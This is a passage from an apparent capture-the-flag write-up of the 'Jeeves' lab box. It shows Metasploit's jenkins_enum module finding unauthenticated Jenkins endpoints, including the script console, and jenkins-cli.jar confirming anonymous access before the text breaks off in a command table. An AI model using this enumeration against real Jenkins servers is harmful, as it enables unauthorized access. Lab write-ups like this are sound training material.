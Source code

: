 msf auxiliary(scanner/http/jenkins_enum) &gt; run

[+] [2018.05.17-11:02:57] 10.10.10.63:50000 - Jenkins Version 2.87
[+] [2018.05.17-11:02:57] http://10.10.10.63:50000/askjeeves/ - /askjeeves/script does not require authentication (200)
[+] [2018.05.17-11:02:57] http://10.10.10.63:50000/askjeeves/ - /askjeeves/view/All/newJob does not require authentication (200)
[+] [2018.05.17-11:02:57] http://10.10.10.63:50000/askjeeves/ - /askjeeves/asynchPeople/ does not require authentication (200)
[+] [2018.05.17-11:02:57] http://10.10.10.63:50000/askjeeves/ - /askjeeves/systemInfo does not require authentication (200)
[*] [2018.05.17-11:02:57] Getting useful information from systemInfo
 OS: Windows 10
 OS Version: 10.0
 Arch: x86
 User: kohsuke
 Domain: JEEVES
 Home Directory: C:\Users\kohsuke
 Language: en
 Country: US
 Timezone: America/New_York
 Computer Name: JEEVES
 System Drive: C:
 Temp Directory: C:\Users\kohsuke\AppData\Local\Temp
 Temp Directory: C:\Users\kohsuke\AppData\Local\Temp

[*] [2018.05.17-11:02:58] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/http/jenkins_enum) &gt; 

</pre>

So it is a Windows 10 box with a user kohsuke and the Jenkins application is v 2.87.

I browsed through the CMS and found a way to execute commands through a jar file I had to download

<img class="alignnone size-full wp-image-200" src="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/jenkinscli.png?resize=680%2C89" alt="" width="680" height="89" srcset="https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/jenkinscli.png?w=1235 1235w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/jenkinscli.png?resize=300%2C39 300w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/jenkinscli.png?resize=768%2C101 768w, https://i0.wp.com/offsecnewbie.com/wp-content/uploads/2018/05/jenkinscli.png?resize=1024%2C134 1024w" sizes="(max-width: 680px) 100vw, 680px" data-recalc-dims="1" /> 

<pre>Looks like it worked

[root:~/Desktop/jeeves]# java -jar jenkins-cli.jar -s http://10.10.10.63:50000/askjeeves/ who-am-i (master✱) 
Authenticated as: anonymous
Authorities:
[root:~/Desktop/jeeves]#</pre>

Now what can I run? Noting useful by the looks of it

## Available Commands

<table>
  <tr>
    <td>
      <a href="http://10.10.10.63:50000/askjeeves/cli/command/add-job-to-view">add-job-to-view</a>
    </td>
    